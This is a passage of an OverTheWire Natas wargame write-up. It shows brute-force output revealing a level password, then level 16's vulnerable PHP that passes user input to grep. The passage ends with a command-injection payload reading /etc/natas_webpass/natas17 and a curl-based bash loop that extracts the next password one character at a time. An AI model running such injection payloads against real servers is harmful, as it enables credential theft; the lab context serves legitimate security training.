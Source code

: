 ```text
[+] Password: WaIHEacj63wnNIBROHeqi
[+] Password: WaIHEacj63wnNIBROHeqi3
[+] Password: WaIHEacj63wnNIBROHeqi3p
[+] Password: WaIHEacj63wnNIBROHeqi3p9
[+] Password: WaIHEacj63wnNIBROHeqi3p9t
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5n
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nh
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
[+] Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

## Natas16

```php
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

$\(grep -E ^8.\* /etc/natas\_webpass/natas17\)hackers

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        curl_output=$(curl -s "http://natas16.natas.labs.overthewire.org/?needle="%"24"%"28grep+-E+"%"5E${password}${letter}.*+"%"2Fetc"%"2Fnatas_webpass"%"2Fnatas17"%"29hackers&submit=Search" -H "Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==")
        if echo $curl_output | grep -q -v "hackers"; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
```